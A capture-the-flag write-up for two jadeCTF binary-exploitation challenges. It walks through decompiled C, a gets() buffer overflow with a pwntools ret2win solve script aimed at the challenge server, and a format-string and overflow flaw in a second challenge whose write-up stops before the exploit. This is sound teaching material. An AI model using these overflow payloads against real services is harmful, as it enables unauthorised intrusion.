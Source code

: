 # BABY PWN
We are given a binary.  
On analyzing it with Ghidra, we find the `start_program()` function:
```c
void start_program(void)

{
  char local_208 [512];
  
  puts("Enter your name:");
  gets(local_208);
  printf("Hello %s, welcome to jadeCTF!\n",local_208);
  return;
}
```
This is a simple Buffer Overflow. There is also a `win()` function which we need to call:
```c
void win(void)

{
  char local_78 [104];
  FILE *local_10;
  
  puts("Nice job :)");
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("Sorry, flag doesn\'t exist.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_78,100,local_10);
  printf("Here is your flag: %s\n",local_78);
  return;
}
```
We can overflow the `local_208` variable and call the `win()` function to get the flag. The solve script:
```py
from pwn import *

BINARY = "chall"

context.binary = BINARY
elf = context.binary

# p = elf.process()
p = remote("34.76.206.46", 10002)

OFFSET = 0x200 + 8

payload = cyclic(OFFSET)
payload += p64(elf.symbols["win"])

p.sendlineafter(b"Enter your name:\n", payload)
p.interactive()
```
FLAG: `jadeCTF{buff3r_0v3rfl0ws_4r3_d4ng3r0u5}`

# DATA STORAGE
Analyzing the binary in Ghidra. This is the main function:
```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,1,0);
  puts("This is a data storing system.");
  puts("It stores your name, address and other details");
  gen_ints();
  database_store();
  puts("Thank you for using our storage facility!");
  return 0;
}
```
We can see that it first calls the `gen_ints()` function. Let's see that:
```c
void gen_ints(void)

{
  int iVar1;
  time_t tVar2;
  time_t local_10;
  
  tVar2 = time(&local_10);
  srand((uint)tVar2);
  iVar1 = rand();
  n = iVar1 % 0x32 + 1;
  iVar1 = rand();
  an = iVar1 % 0x19 + 1;
  iVar1 = rand();
  b = iVar1 % 0x32 + 1;
  iVar1 = rand();
  u = iVar1 % 0x32 + 1;
  a = 0x200 - (u + n + an + b);
  return;
}
```
It basically generates 4 random numbers, stores them in `n`, `an`, `b` and `u`. Then subtracts the sum of these from 0x200 and stores it in `a`.
Next, we have the `database_store()` function:
```c
void database_store(void)

{
  int iVar1;
  uint uVar2;
  uint uVar3;
  size_t sVar4;
  long in_FS_OFFSET;
  char local_238 [16];
  char local_228 [16];
  char local_218 [520];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Are you sure that you want to store data [yes/no]?");
  fgets(local_238,10,stdin);
  sVar4 = strcspn(local_238,"\r\n");
  local_238[sVar4] = '\0';
  printf("You entered: ");
  printf(local_238);
  puts("\nIs that correct?");
  fgets(local_228,10,stdin);
  sVar4 = strcspn(local_228,"\r\n");
  local_228[sVar4] = '\0';
  iVar1 = strcmp(local_228,"yes");
  if (iVar1 != 0) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Now, it\'s time to enter your details");
  puts(
      "Note that there is a length given for each field, you have to enter atleast that many charact ers"
      );
  puts("Fill it up with spaces if your input is less");
  printf("Enter your Name(%d), Admission Number(%d), Branch(%d), University(%d), and Address(%d) (i n this order):\n"
         ,(ulong)n,(ulong)an,(ulong)b,(ulong)u,(ulong)a);
  gets(local_218);
  puts("Scrambling your data so that hackers can\'t steal it...");
  modify(name,local_218,0);
  uVar2 = n;
  modify(admno,local_218,n);
  iVar1 = uVar2 + an;
  modify(branch,local_218,iVar1);
  iVar1 = iVar1 + b;
  modify(university,local_218,iVar1);
  modify(address,local_218,iVar1 + u);
  memset(local_218,0,0x200);
  modify(local_218,name,0);
  iVar1 = (int)n / 2;
  modify(local_218 + iVar1,branch,0);
  iVar1 = iVar1 + (int)b / 3;
  modify(local_218 + iVar1,admno,0);
  iVar1 = iVar1 + (int)an / 3;
  modify(local_218 + iVar1,university,0);
  iVar1 = iVar1 + (int)u / 2;
  modify(local_218 + iVar1,address,0);
  iVar1 = iVar1 + (int)a / 10;
  modify(local_218 + iVar1,branch,(int)b / 3);
  iVar1 = iVar1 + (b - (int)b / 3);
  modify(local_218 + iVar1,name,(int)n / 2);
  iVar1 = iVar1 + (n - (int)n / 2);
  modify(local_218 + iVar1,address,(int)a / 10);
  iVar1 = iVar1 + (int)a / 10;
  modify(local_218 + iVar1,university,(int)u / 2);
  uVar2 = u;
  if ((int)u < 0) {
    uVar2 = u + 3;
  }
  iVar1 = iVar1 + ((int)uVar2 >> 2);
  modify(local_218 + iVar1,admno,(int)an / 3);
  iVar1 = iVar1 + (an - (int)an / 3);
  modify(local_218 + iVar1,address,(int)a / 10 + (int)a / 10);
  uVar2 = u;
  if ((int)u < 0) {
    uVar2 = u + 3;
  }
  uVar3 = u;
  if ((int)u < 0) {
    uVar3 = u + 3;
  }
  modify(local_218 + (int)(iVar1 + a + (-((int)a / 10) - (int)a / 10)),university,
         ((int)uVar3 >> 2) + (int)u / 2,u - (((int)uVar2 >> 2) + (int)u / 2));
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
This is a big code. First it is taking some inputs, and then we can see that we have a format strings vulnerability in a printf statement. Moving on, it takes an input (we have buffer overflow here as gets is being used). Then it calls the `modify()` function on our input.

